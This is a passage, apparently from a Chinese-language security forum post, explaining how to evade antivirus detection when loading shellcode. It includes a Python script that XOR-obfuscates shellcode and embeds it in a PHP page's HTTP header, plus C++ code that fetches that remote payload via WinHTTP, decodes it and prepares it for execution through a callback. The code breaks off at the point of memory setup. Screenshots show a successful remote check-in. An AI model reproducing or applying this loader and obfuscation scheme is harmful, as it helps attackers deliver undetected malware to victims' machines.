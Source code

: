 
这两个api就相当于python爬虫读取数据一样，我们也可以把shellcode放进shellcode.txt里，在放到网站上，利用这两个api读取，最后回调函数执行

## shellcode免杀上线

效果如下  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121453.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121454.png)

shellcode加密解密：  
这里依然是沿用我上一篇文章加密解密方式，师傅们可以去看看我上一篇文章,地址https://forum.butian.net/share/1848  
这里我不在说了

shellcode加载  
这里用上面讲的WinHttpSetStatusCallback这个api

加密代码：  
encode.py

    
    
    shellcode = b""  
    str_=""  
    for i in shellcode:  
        code=(i^1024)+1024  
        str_+=str(code)  
    with open("ii.php","w") as f:  
        f.write(f'<?php header("sc:{str_}");?>')  
    print("ok")  
      
    

运行后会生成一个ii.php文件

    
    
    <?php header("sc:加密后的shellcode");?>  
    

解密和shellcode加载代码：

    
    
    DWORD LoadSc(char* EncodeBuffer) {  
        char buf[6000];  
        strcpy(buf, EncodeBuffer);  
        delete[] EncodeBuffer;  
        char cd[10];  
        char code;  
        string buf_2 = buf;  
        int num = 0,cnum = 0;  
        int num_ = num + 4;  
        for (int i = 0; i < sizeof(buf); i++) {  
            if (buf[i] != (char)'\x0') {  
                string str = buf_2.substr(num, num_);  
                if (str.length() < 4) {  
                    break;  
                }  
                str.copy(cd, 4, 0);  
                code = (char)(atoi(cd) - 1024) ^ 1024;  
                buf[cnum] = code;  
                cnum++;  
                num_ += 4;  
                num += 4;  
            }  
            else {  
                break;  
            }  
        }  
        DWORD Old = 0;  